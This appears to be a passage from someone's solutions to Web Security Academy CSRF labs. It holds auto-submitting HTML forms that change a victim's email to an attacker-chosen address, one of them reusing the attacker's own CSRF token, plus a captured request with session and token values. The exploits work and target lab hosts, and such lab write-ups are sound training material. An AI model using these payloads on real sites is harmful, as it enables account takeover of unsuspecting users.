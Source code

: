 Body:

```
<html>
    <body>
        <form action="https://0a9f002104c14a87c02b0da400b2001d.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### CSRF token is not tied to the user session

Solution: Use your csrf token 

```
POST /my-account/change-email HTTP/1.1
Host: 0a9a00c903f1fef3c07d0371002b004b.web-security-academy.net
Cookie: session=PEtdIW3OizFP6I5Sf29DaxvfJNJ6oAN8
Content-Length: 67
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a9a00c903f1fef3c07d0371002b004b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00c903f1fef3c07d0371002b004b.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=asdasdasd%40asdasd.ciom&csrf=0EqlDwriXnpKqgp3iKQPked6XbFAOLsT
```

Solution: As hinted in the lab description, use a csrf token generated by your account

Body:

```
<html>
    <body>
        <form action="https://0a9a00c903f1fef3c07d0371002b004b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="0EqlDwriXnpKqgp3iKQPked6XbFAOLsT" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
